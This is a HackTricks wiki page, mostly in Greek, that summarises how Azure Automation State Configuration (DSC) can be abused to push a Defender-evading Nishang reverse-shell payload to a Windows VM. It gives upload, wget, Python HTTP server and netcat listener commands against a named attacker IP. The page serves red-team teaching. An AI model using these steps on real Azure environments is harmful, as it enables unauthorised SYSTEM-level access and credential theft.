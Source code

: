 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Η διαδικασία περιλαμβάνει την εγκατάσταση μιας υποδομής απομακρυσμένου διακομιστή για τη φιλοξενία ενός τροποποιημένου payload `Invoke-PowerShellTcp.ps1` του Nishang, ονόματι `RevPS.ps1`, σχεδιασμένο να παρακάμπτει το Windows Defender. Το payload εξυπηρετείται από μια μηχανή Kali Linux με IP `40.84.7.74` χρησιμοποιώντας έναν απλό HTTP server Python. Η λειτουργία εκτελείται μέσω αρκετών βημάτων:

#### Step 1 — Create Files

* **Files Required:** Απαιτούνται δύο σενάρια PowerShell:
1. `reverse_shell_config.ps1`: Ένα αρχείο Desired State Configuration (DSC) που ανακτά και εκτελεί το payload. Είναι διαθέσιμο από το [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: Ένα σενάριο για τη δημοσίευση της διαμόρφωσης στη VM, διαθέσιμο στο [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Customization:** Οι μεταβλητές και οι παράμετροι σε αυτά τα αρχεία πρέπει να προσαρμοστούν στο συγκεκριμένο περιβάλλον του χρήστη, συμπεριλαμβανομένων των ονομάτων πόρων, των διαδρομών αρχείων και των αναγνωριστικών διακομιστή/payload.

#### Step 2 — Zip Configuration File

* Το `reverse_shell_config.ps1` συμπιέζεται σε ένα αρχείο `.zip`, καθιστώντας το έτοιμο για μεταφορά στον Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Set Storage Context & Upload

* Το συμπιεσμένο αρχείο ρύθμισης μεταφορτώνεται σε ένα προκαθορισμένο Azure Storage container, azure-pentest, χρησιμοποιώντας το cmdlet Set-AzStorageBlobContent του Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Βήμα 4 — Προετοιμασία του Kali Box

* Ο διακομιστής Kali κατεβάζει το φορτίο RevPS.ps1 από ένα αποθετήριο GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Το σενάριο επεξεργάζεται για να καθορίσει το στοχευμένο Windows VM και την πόρτα για το reverse shell.

#### Βήμα 5 — Δημοσίευση Αρχείου Ρυθμίσεων

* Το αρχείο ρυθμίσεων εκτελείται, με αποτέλεσμα το σενάριο reverse-shell να αναπτυχθεί στην καθορισμένη τοποθεσία στο Windows VM.

#### Βήμα 6 — Φιλοξενία Payload και Ρύθμιση Listener

* Ένας Python SimpleHTTPServer ξεκινά για να φιλοξενήσει το payload, μαζί με έναν Netcat listener για να καταγράψει τις εισερχόμενες συνδέσεις.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Η προγραμματισμένη εργασία εκτελεί το payload, επιτυγχάνοντας δικαιώματα επιπέδου SYSTEM.

#### Συμπέρασμα

Η επιτυχής εκτέλεση αυτής της διαδικασίας ανοίγει πολλές δυνατότητες για περαιτέρω ενέργειες, όπως η εξαγωγή διαπιστευτηρίων ή η επέκταση της επίθεσης σε πολλές VM. Ο οδηγός ενθαρρύνει τη συνεχιζόμενη μάθηση και τη δημιουργικότητα στον τομέα του Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
